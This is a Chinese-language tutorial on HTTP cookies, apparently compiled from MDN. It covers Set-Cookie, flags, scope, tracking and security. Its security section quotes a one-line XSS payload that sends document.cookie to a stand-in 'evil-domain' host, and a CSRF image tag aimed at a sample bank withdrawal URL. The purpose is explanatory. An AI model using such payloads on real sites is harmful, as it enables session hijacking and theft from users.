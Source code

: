 ```yaml
---
cover: >-
  https://images.unsplash.com/photo-1643387959267-c84f40357e02?crop=entropy&cs=srgb&fm=jpg&ixid=MnwxOTcwMjR8MHwxfHJhbmRvbXx8fHx8fHx8fDE2NDYwMTE2OTQ&ixlib=rb-1.2.1&q=85
coverY: 0
---
```


# 🍒 HTTP cookies

### 简介

HTTP Cookie（Web Cookie）是**服务器发送到用户浏览器并保存在本地的一小块数据，它会在浏览器下次向同一服务器再发起请求时被携带并发送到服务器上。通常，它用于告知服务端两个请求是否来自同一浏览器，如保持用户的登录状态。Cookie使基于无状态的HTTP协议记录稳定的状态信息**成为了可能。

Cookie主要用于以下三个方面：

* 会话状态管理（用户登录状态、购物车）
* 个性化设置（用户自定义设置、主题）
* 浏览器行为跟踪（跟踪分析用户行为） Cookie曾一度用于客户端数据的存储，因当时并没有其它合适的存储办法而作为唯一的存储手段，但现在随着现代浏览器开始支持各种各样的存储方式，Cookie渐渐被淘汰。由于服务器指定Cookie后，浏览器的每次请求都会携带Cookie数据，会带来额外的性能开销（尤其是在移动环境下）。新的浏览器API已经允许开发者直接将数据存储到本地，如使用 Web storage API （本地存储和会话存储）或 IndexedDB 。

### 创建Cookie

当服务器收到HTTP请求时，服务器**可以在响应头里面添加一个Set-Cookie选项**。浏览器收到响应后通常会保存下Cookie，之后对该服务器每一次请求中都通过Cookie请求头部将Cookie信息发送给服务器。另外，Cookie的过期时间、域、路径、有效期、适用站点都可以根据需要来指定。

#### Set-Cookie响应头部和Cookie请求头部

服务器使用Set-Cookie响应头部向用户代理（一般是浏览器）发送Cookie信息。一个简单的Cookie可能像这样： `Set-Cookie: <cookie名>=<cookie值>` 服务器通过该头部告知客户端保存Cookie信息

```javascript
HTTP/1.0 200 OK
Content-type: text/html
Set-Cookie: yummy_cookie=choco
Set-Cookie: tasty_cookie=strawberry

[页面内容]
```

现在，对该服务器发起的每一次新请求，浏览器都会将之前保存的Cookie信息通过Cookie请求头部再发送给服务器

```javascript
GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: yummy_cookie=choco; tasty_cookie=strawberry
```

#### 会话期Cookie

会话期Cookie是最简单的Cookie：浏览器关闭之后它会被自动删除，也就是说它仅在会话期内有效。**会话期Cookie不需要指定过期时间（Expires）或者有效期（Max-Age）**。需要注意的是，有些浏览器提供了会话恢复功能，这种情况下即使关闭了浏览器，会话期Cookie也会被保留下来，就好像浏览器从来没有关闭一样。

#### 持久性Cookie

持久性Cookie可以指定一个特定的**过期时间（Expires）或有效期（Max-Age）** (设定的日期和时间只与客户端相关，而不是服务端) `Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;`

#### Cookie的Secure 和HttpOnly 标记

**标记为 Secure 的Cookie只应通过被HTTPS协议加密过的请求发送给服务端**。但即便设置了 Secure 标记，敏感信息也不应该通过Cookie传输，因为**Cookie有其固有的不安全性**，Secure 标记也无法提供确实的安全保障。从 Chrome 52 和 Firefox 52 开始，不安全的站点（http:）无法使用Cookie的 Secure 标记。

为避免跨域脚本 (XSS) 攻击，通过JavaScript的 Document.cookie API无法访问带有 HttpOnly 标记的Cookie，它们只应该发送给服务端。**如果包含服务端 Session 信息的 Cookie 不想被客户端 JavaScript 脚本调用，那么就应该为其设置 HttpOnly 标记** `Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly`

#### Cookie的作用域

Domain 和 Path 标识定义了Cookie的作用域：即**Cookie应该发送给哪些URL**。

Domain 标识指定了哪些主机可以接受Cookie。**如果不指定，默认为当前文档的主机（不包含子域名）。如果指定了Domain，则一般包含子域名。**

例如，如果设置 Domain=mozilla.org，则Cookie也包含在子域名中（如developer.mozilla.org）。

Path 标识指定了主机下的哪些路径可以接受Cookie（该URL路径必须存在于请求URL中）。以字符 **%x2F ("/") 作为路径分隔符**，子路径也会被匹配。

例如，设置 Path=/docs，则以下地址都会匹配：

* /docs
* /docs/Web/
* /docs/Web/HTTP

#### SameSite Cookies

**SameSite Cookie允许服务器要求某个cookie在跨站请求时不会被发送，从而可以阻止跨站请求伪造攻击（CSRF）。**

SameSite cookies是相对较新的一个字段，所有主流浏览器都已经得到支持。

`Set-Cookie: key=value; SameSite=Strict`

* None

浏览器会在同站请求、跨站请求下继续发送cookies，不区分大小写,没有开启这个功能

* Strict

浏览器将只在访问相同站点时发送cookie。

* Lax

在新版本浏览器中，为**默认选项**，Same-site cookies 将会为一些跨站子请求保留，如图片加载或者frames的调用，但只有当用户从外部站点导航到URL时才会发送。如link链接，比较智能

#### JavaScript通过Document.cookie访问Cookie

通过Document.cookie属性可创建新的Cookie，也可通过该属性访问非HttpOnly标记的Cookie。

```javascript
document.cookie = "yummy_cookie=choco"; 
document.cookie = "tasty_cookie=strawberry"; 
console.log(document.cookie); 
// logs "yummy_cookie=choco; tasty_cookie=strawberry"
```

JavaScript可以通过跨站脚本攻击（XSS）的方式来窃取Cookie。

### 安全

**当机器处于不安全环境时，切记不能通过HTTP Cookie存储、传输敏感信息。**

#### 会话劫持和XSS

在Web应用中，Cookie常用来标记用户或授权会话。因此，如果Web应用的Cookie被窃取，可能导致授权用户的会话受到攻击。常用的窃取Cookie的方法有利用社会工程学攻击和利用应用程序漏洞进行XSS攻击 `(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;`

HttpOnly类型的Cookie由于阻止了JavaScript对其的访问性而能在一定程度上缓解此类攻击。

#### 跨站请求伪造（CSRF）

在不安全聊天室或论坛上的一张图片，它实际上是一个给你银行服务器发送提现的请求： `<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">` 有一些方法可以阻止此类事件的发生：

* 对用户输入进行过滤来阻止XSS；
* 任何敏感操作都需要确认；
* 用于敏感信息的Cookie只能拥有较短的生命周期；

### 追踪和隐私

#### 第三方Cookie

每个Cookie都会有与之关联的域（Domain），如果Cookie的域和页面的域相同，那么我们称这个Cookie为**第一方Cookie（first-party cookie）**，如果Cookie的域和页面的域不同，则称之为**第三方Cookie（third-party cookie）**。一个页面包含图片或存放在其他域上的资源（如图片广告）时，第一方的Cookie也只会发送给设置它们的服务器。通过第三方组件发送的第三方Cookie主要用于**广告和网络追踪**。大多数浏览器默认都允许第三方Cookie，但是可以通过附加组件来阻止第三方Cookie（如EFF的Privacy Badger）。

#### 禁止追踪Do-Not-Track

请求首部 DNT (Do Not Track) 表明了用户对于网站追踪的偏好。它允许用户指定自己是否更注重个人隐私还是定制化内容。

* DNT:0 表示用户**愿意**目标站点追踪用户个人信息。
* DNT:1 表示用户**不愿意**目标站点追踪用户个人信息。

虽然并没有法律或者技术手段强制要求使用DNT，但是通过DNT可以告诉Web程序不要对用户行为进行追踪或者跨站追踪。

#### 僵尸Cookie和删不掉的Cookie

Cookie的一个极端使用例子是僵尸Cookie（或称之为“删不掉的Cookie”），这类Cookie较难以删除，甚至删除之后会自动重建。它们一般是使用**Web storage API、Flash本地共享对象**或者其他技术手段来达到的。

如何做到僵尸cookie [evercookie，希望以后不会用到](https://github.com/samyk/evercookie)

### 说明

本文整理于https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies#%E5%AE%89%E5%85%A8 为更简单方便的理解HTTp的技术
